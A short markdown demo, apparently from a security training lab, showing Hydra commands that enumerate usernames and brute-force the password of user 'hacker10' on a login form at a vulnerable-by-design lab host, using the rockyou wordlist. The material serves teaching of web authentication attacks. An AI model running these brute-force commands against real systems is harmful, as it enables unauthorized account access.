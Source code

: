 # Hydra Demo

Username enumeration:
~~~
# hydra -I -L /usr/share/commix/src/txt/usernames.txt -p test glocken.vm.vuln.land http-get-form "/12001/cookie_case0/auth_cookie0/login:username=^USER^&password=^PASS^:Wrong username"
~~~

Decompress password list:
~~~
# gunzip /usr/share/wordlists/rockyou.txt.gz
~~~

Brute force password of user `hacker10`:
~~~
# hydra -I -l hacker10 -P /usr/share/wordlists/rockyou.txt  glocken.vm.vuln.land http-get-form "/12001/cookie_case0/auth_cookie0/login:username=^USER^&password=^PASS^:Forgot password"
~~~
